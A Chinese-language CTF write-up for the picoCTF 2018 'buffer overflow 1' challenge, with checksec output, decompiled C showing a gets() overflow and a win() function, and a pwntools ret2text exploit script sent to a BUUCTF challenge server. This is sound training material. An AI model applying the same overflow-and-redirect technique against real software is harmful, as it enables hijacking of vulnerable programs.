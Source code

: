 ```yaml
---
author: 
  name: Zephyr
title: picoctf 2018 buffer overflow 1
date: 2022-4-2 13:10:25
permalink: /pages/2e1547494524d1a3
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# picoctf 2018 buffer overflow 1

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/picoctf_2018_buffer_overflow_1/PicoCTF_2018_buffer_overflow_1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // ST1C_4

  setvbuf(_bss_start, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

vuln函数如下

```c
int vuln()
{
  int v0; // eax
  char s; // [esp+0h] [ebp-28h]

  gets(&s);
  v0 = get_return_address();
  return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", v0);
}
```

win函数如下

```c
int win()
{
  char s; // [esp+Ch] [ebp-4Ch]
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(&s, 64, stream);
  return printf(&s);
}
```



## 思路分析

1. 目前信息：
   
   - 存在后门函数`win`可打印`flag`
   - No canary found
   - NX disabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 32位`ret2text`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/picoctf_2018_buffer_overflow_1/PicoCTF_2018_buffer_overflow_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27519)
elf = ELF(pwnfile)
padding = 0x28+4
puts_flag_addr = elf.symbols['win']
payload = flat(['a'*padding, puts_flag_addr])
io.sendlineafter('Please enter your string: \n', payload)
io.recvuntil('\n')
print(io.recv())
```